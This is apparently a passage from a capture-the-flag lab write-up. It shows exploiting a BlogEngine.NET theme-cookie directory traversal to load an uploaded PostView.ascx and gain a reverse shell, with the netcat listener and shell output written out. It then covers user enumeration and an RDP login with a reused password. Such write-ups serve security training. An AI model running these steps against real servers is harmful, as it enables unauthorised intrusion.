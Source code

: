 Upon searching for other ways to get remote code execution, I came across [this](https://exploit.kitploit.com/2019/06/blogenginenet-336-337-theme-cookie.html) article. Where it mentions, we do not need to create our "theme" inside `/Custom/Themes/` and we can simply upload our `PostView.ascx` file to the default `/App_Data/files/` directory and use a directory traversal vulnerability in the `theme` cookie to load `/App_Data/files/` as theme.

Uploading our `PostView.ascx` file to the default directory (`/App_Data/files/`) for files.

![BlogEngine.NET PostView.ascx Upload Success](web_blog_postview_upload_success.webp){: width="650" height="400" }

Setting up our listener and sending the payload with the malicious `theme` cookie, we get a shell as the `merlin` user.

![BlogEngine.NET RCE](web_blog_rce_request.webp){: width="500" height="250" }

```console
$ rlwrap nc -lvnp 445
listening on [any] 445 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.16.197] 49853
Microsoft Windows [Version 10.0.17763.4737]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
whoami
c:\windows\system32\inetsrv>whoami
exfilibur\merlin
```

## Shell as kingarthy

### Listing users

Now that we have a shell, we can get a list of all the users on the machine.

```console
c:\windows\system32\inetsrv>net user
User accounts for \\EXFILIBUR
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
kingarthy                merlin                   WDAGUtilityAccount       
The command completed successfully.
```

We discover the username for King Arthur: `kingarthy`.

### Using RDP

Testing the password we got from the draft page with the username we found against the RDP service, it works, and we get a session.

We can read the user flag, found in our `Desktop`.

![User Flag](user_flag.webp){: width="900" height="400" }
